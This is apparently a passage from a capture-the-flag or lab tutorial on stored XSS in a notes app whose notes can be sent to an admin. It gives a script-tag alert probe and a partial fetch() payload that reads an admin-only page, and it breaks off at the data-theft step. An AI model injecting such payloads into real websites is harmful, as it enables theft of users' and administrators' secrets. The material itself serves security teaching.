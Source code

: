 <figure id="fig:login">
<img src="/assets/images/2024-12-06/stored-xss-example.png" />
</figure>
<br>


1. An attacker finds a possibility for a XSS vulnerability (in the depicted case stored XSS, which means the attack can manage to store malicious JS on the website’s server)
2. A victim visits the webpage for some reason
3. The victim’s browser loads the page and executes the malicious JS code
4. The code was constructed in such a way that it will extract secrets and send them to an attacker-controlled server where the hacker can read and misuse them.


### Step 1

Once again we look around at interesting items on the site. Go ahead and look around, you have done this before.

You likely found that you can create notes in your account, yay! Interestingly when creating a new note, you can then send it to an admin with the red button at the top when you are viewing a note.

That is interesting information because we know we can make an administrator visit our note. So, that means we could extract some interesting information if we are able to perform XSS.

### Step 2 
Let’s try to create a note that has a script tag in it’s content. Submit the following in a new note:

    <script>alert(document.domain)</script>

It works, and on top of that when viewing the note, you actually get an alert. So, now it’s time to start writing an actual exploit. Because we know an admin has access to the `/very-secret-and-unknown-admin-page`, we can try to load that page by using JavaScript.

```html
<script>
fetch("/very-secret-and-unknown-admin-page")
    .then(r => r.text())
    .then(t => ???)
</script>
```
